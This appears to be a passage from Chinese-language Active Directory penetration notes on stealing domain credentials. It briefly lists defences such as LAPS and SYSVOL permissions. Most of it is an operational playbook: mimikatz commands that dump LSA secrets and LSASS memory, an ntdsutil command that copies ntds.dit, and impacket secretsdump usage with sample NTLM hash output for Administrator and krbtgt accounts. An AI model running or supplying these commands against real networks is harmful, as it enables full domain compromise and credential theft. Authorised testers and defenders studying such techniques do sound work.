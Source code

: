 ```
a. 使用了LAPS批量管理域内主机本地管理员帐户 (使用ldapsearch来dump域中的LAPS密码 https://www.anquanke.com/post/id/86502)
    即 Local Administrator Password Solution : LAPS最大的优点是能够确保每台域内主机有不同的密码，并且定期更换。
b. 域控安装补丁KB2962486
    这个补丁禁止在组策略配置中填入密码
c. 目标不在组策略中使用域控密码
d. 设置了共享文件夹\SYSVOL的访问权限
```

## ntds.dit (活动目录的数据库文件)

包含有关活动目录域中所有对象的所有信息 及 所有域用户和计算机帐户的密码哈希值。

域控制器(DC)上的ntds.dit文件只能由可以登录到DC的用户访问 。

这些组可以默认登录到域控制器:

```
    Enterprise Admins (目录林管理员组)
    Domain Admins(域管理员组)
    Administrators(管理员组)
    Backup Operators(备份操作成员)
    Account Operators(账户管理组)
    Print Operators(打印机操作组)
```

不能登录到域控制器可能 :

```
a. 限制了有权登录到域控制器的组/帐户。
b. 限制了具有完整活动目录权限的组/帐户，特别是服务帐户。
```

若帐户登录了域控制器，首先把所有的登录凭证全部获取到本地:

```bash
1. MIMIKATZ从域控上面抓取到所有账户信息:
    mimikatz # lsadump::lsa /inject exit
    or 保存到mimikatz.log:
    mimikatz # log
    mimikatz # privilege::debug
    mimikatz # lsadump::lsa /inject
    ![mimikatz-lsa](域渗透相关/mimikatz-lsa.png)
2.使用MIMIKATZ转储LSASS内存(获取域管理员凭据)
    mimikatz # sekurlsa::minidump c:\temp\lsass.dmp
    mimikatz # sekurlsa::logonpasswords
3. 使用任务管理器转储LSASS内存(获取域管理员凭据)
    一旦LSASS被转储，mimikatz就可以对lsass.dmp进行提取
    右鍵lsass.exe : Create Dump File
4. 用NTDSUTIL创建媒体安装集(IFM) (用于抓取NTDS.DIT文件)
    NTDSUtil一个本地运行的针对活动目录数据库(ntds.dit)的命令，并且允许为DCPromo准备IFM集。
    IFM是用于DCPromo命令中”从媒体安装”这一过程的，所以，在配置域控时就不需要通过网络从其他域控拷贝数据。
    并且也会在c:/temp目录下生成的一份NTDS.dit附件。
        ntdsutil "ac i ntds" "ifm" "create full c:\windows\temp\temp" q q
    創建了temp目錄，下面会生成 ntds.dit 和 SYSTEM / SECURITY
5. 从NTDS.DIT文件(和注册表系统配置单元)转储活动目录域凭据
    需要 ntds.dit 和 system.hive (由第4步得到)
    https://github.com/CoreSecurity/impacket/blob/master/examples/secretsdump.py (only linux): 
    -> python secretsdump.py -ntds /root/Desktop/temp/Active Directory/ntds.dit -system /root/Desktop/temp/registry/SYSTEM LOCAL
     -> 
        demo.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::
        Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        OWA2010DC$:1000:aad3b435b51404eeaad3b435b51404ee:aac6185241728f7685c8d50c61573b75:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3f65c6984cbfebdc5f17986d07620afb:::
OWA2010$:1103:aad3b435b51404eeaad3b435b51404ee:d51220f5659cd982fb3fbe4169093181:::
or -> https://github.com/zcgonvh/NTDSDumpEx/releases
```